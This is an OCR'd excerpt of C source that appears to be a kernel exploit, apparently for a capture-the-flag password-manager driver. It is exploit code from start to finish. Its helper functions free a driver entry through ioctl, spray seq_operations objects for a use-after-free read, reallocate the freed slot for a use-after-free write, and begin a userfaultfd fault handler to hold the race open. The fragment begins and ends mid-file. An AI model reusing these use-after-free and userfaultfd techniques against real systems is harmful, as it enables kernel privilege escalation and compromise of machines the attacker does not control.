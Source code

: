 ```c
}

int delete_password(unsigned int index){
    //printf("ADD\n");
    request_t req;
    memset(&req, '\0', sizeof(request_t));
    req.index = index;
    req.size = 0;
    req.password = 0;
    int ret = ioctl(fd, DEL_PW, &req);
    if (ret < 0) die("RESET");
    //printf("Created #%d\n", ret);
    return ret;
}

int die(char *text){                
    printf("Die: %s\n", text);
    exit(-1);
} 

int hexdump(char *target, int size){                
    for (int i=0; i<size/8; i++){                 
      if (*(unsigned long*)(target+(i*8)) != 0){
        printf("0x%x: 0x%lx\n", i*8, *(unsigned long*)(target+(i*8)));    
      }                              
    }                                                                                                
}

int uffd_stage1(){
  puts("[+] UAF read");
  delete_password(0);   

  for (int i=0; i < 0x50; i++){
    seq_open();
  }

}

int uffd_stage2(){

  puts("[+] UAF write");

  delete_password(0);   

  add_password(2, 0x20, buf);  
  add_password(3, 0x20, buf);  
}

static void* fault_handler_thread(void *arg) {
  char *dummy_page;
  static struct uffd_msg msg;
  struct uffdio_copy copy;
  struct pollfd pollfd;
  long uffd;
  static int fault_cnt = 0;

  uffd = (long)arg;

  dummy_page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (dummy_page == MAP_FAILED) die("mmap(dummy)");

```